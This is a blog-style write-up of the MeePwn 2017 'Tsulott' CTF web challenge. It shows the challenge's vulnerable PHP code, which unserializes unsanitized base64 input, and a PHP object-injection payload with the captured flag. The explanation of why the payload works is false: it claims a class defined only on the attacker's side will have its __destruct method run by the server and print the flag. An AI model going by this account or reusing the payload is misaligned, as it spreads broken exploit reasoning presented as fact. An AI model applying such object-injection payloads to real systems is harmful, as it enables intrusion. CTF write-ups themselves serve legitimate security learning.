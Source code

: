 ```yaml
---
layout: post
title:  "Meepwn Tsulott"
date:	2017-09-28 14:19:38 +0200
author: foo
categories: ctf meepwn write-up
ref: meepwn-web
---
```


It's been a while since I last wrote something here, so maybe it's time to fix that...

---

**NOTE: If you want to try this challenge first by yourself,
[here](/assets/posts/2017-09-28-meepwn-web/code.tar.gz) are all the materials
needed to do it (note that you'll have to set up a server that supports PHP, as it won't
work otherwise).**

---

This is the write-up for the only challenge I completed on the
[MeePwn'17 CTF](https://ctftime.org/event/486). For some reason, the page kept telling me
to "stop spamming flags" while trying to submit the solution; so I simply gave up and
just got into something else.

Anyway, the first challenge I looked into was the one titled _Tsulott_. The webpage where
we have to get the flag from looks beautiful:

{% include image.html
	src="/assets/posts/2017-09-28-meepwn-web/first_recon.png"
	title="Webpage"
	alt="Webpage's first recon"
%}

The first thing to do is to look at the HTML, as most of this challenges are simple and,
usually, there are comments with clues. In this case, there's a comment at the end of the
file that makes us think that a debug option exists and someone forgot to disable it in
production:
```html
<center>
<font color='white'>-----------------------------------------------------------------------------------------------------------------------------</font>
<h3><font color='white'>Take code</font></h3><p>
<p><font color='white'>Pick your six numbers (Ex: 15 02 94 11 88 76)</font><p>
<form>
      <input type="text" name="gen_code" maxlength="17" /><p><p>
      <button type="submit" name="btn-submit" value="go">send</button>
</form>
</center>
<!-- GET is_debug=1 -->
</body>
```

Things like this can happen (not as obvious as this one, but still...), and we can take
advantage of someone's mistake by simply requesting `[endpoint]/?is_debug=1`. _Violà_,
here is the code of the server:

{% include image.html
	src="/assets/posts/2017-09-28-meepwn-web/code.png"
	title="Debug option set to 1"
	alt="Server's response when 'is_debug' is set to 1"
%}

Now we have to examine this new PHP code:

{% highlight php linenos %}
<?php
    class Object
    {
        var $jackpot;
        var $enter;
    }
?>


<?php

    include('secret.php');

    if (isset ($_GET ['input']))
    {
        $obj = unserialize (base64_decode ($_GET ['input']));

        if ($obj)
        {
            $obj->jackpot = rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99);

            if ($obj->enter === $obj->jackpot)
            {
                echo "<center><strong><font color='white'>"
                    . "CONGRATULATION! You Won JACKPOT PriZe !!!"
                    . "</font></strong></center>"
                    . "<br><center><strong>"
                    . "<font color='white' size='20'>"
                    . $obj->jackpot
                    . "</font></strong></center>";

                echo "<br><center><strong><font color='green' size='25'>"
                    . $flag . "</font></strong></center><br>";

                echo "<center><img "
                    . "src='http://www.relatably.com/m/img/"
                    . "cross-memes/5378589.jpg' /></center>";
            }
            else
            {
                echo "<br><br><center><strong>"
                    . "<font color='white'>Wrong! True Six "
                    . "Numbers Are: </font></strong></center>"
                    . "<br><center><strong><font color='white'"
                    . " size='25'>"
                    . $obj->jackpot
                    . "</font></strong></center><br>";
            }
        }
        else
        {
            echo "<center><strong><font color='white'>- Something wrong,"
                . " do not hack us please! -</font></strong></center>";
        }
    }
    else
    {
        echo "";
    }
?>

<?php
    if (isset ($_GET ['gen_code']) && !empty ($_GET ['gen_code']))
    {
        $temp = new Object;
        $temp->enter = $_GET ['gen_code'];

        $code = base64_encode (serialize ($temp));

        echo '<center><font color=\'white\'>Here is your code,"
            . " please use it to Lott: <strong>'
            . $code. '</strong></font></center>';
    }
?>

<?php
    if (isset ($_GET ['is_debug']) && $_GET ['is_debug'] === '1')
    {
        show_source (__FILE__);
    }
?>
{% endhighlight %}



After a couple of minutes reading this code, we can see that there's a flaw on the way
the user input is handled, as it's not sanitized (on line 16). We can take advantage of
the unserialization to
[inject and object](https://www.owasp.org/index.php/PHP_Object_Injection), encoded in
base64 and passed using the parameter `input`.

This vulnerability works as follows:

  - We create a class, `Exploit`, that implements only one method: `__destruct ()`. This
	method will be called when the object is destroyed. The code inside it can be as
	simple as `var_dump ($flag);`.

  - An object, instance of the new class, is serialized and encoded in Base64. This will
	be the value of the parameter `input`.

  - The server recieves the Base64 encoded string and, after decoding it, calls the
	`unserialize ()` method. This method creates a new object with the information
	stored on this string. In this case, an instance of our new class is created and,
	upon its destruction, invokes the method `__destruct ()` that dumps the content
	of the flag.

Here's the exploit creation and the final result:
```php
$ php -a
Interactive mode enabled

php > class Exploit
php > {
php {	function __destruct ()
php {	{
php {		var_dump ($flag);
php {	}
php { }
php > echo base64_encode (serialize (new Exploit ()));
PHP Notice:  Undefined variable: flag in php shell code on line 5
NULL
Tzo3OiJFeHBsb2l0IjowOnt9
php >
```

When we request `/?input=Tzo3OiJFeHBsb2l0IjowOnt9`, we get the flag:


{% include image.html
	src="/assets/posts/2017-09-28-meepwn-web/flag.png"
	title="Exploit in action"
	alt="Server's response to the exploit, giving us the flag"
%}

Finnaly, the flag is `MeePwnCTF{__OMG!!!__Y0u_Are_Milli0naire_N0ww!!___}`.

I wish I could've tried the rest of the challenges; but, unfortunately, the page didn't
let me submit the flags. Nevertheless, I had fun with this challenge and learned
something, so at least I left the CTF with a good impression.

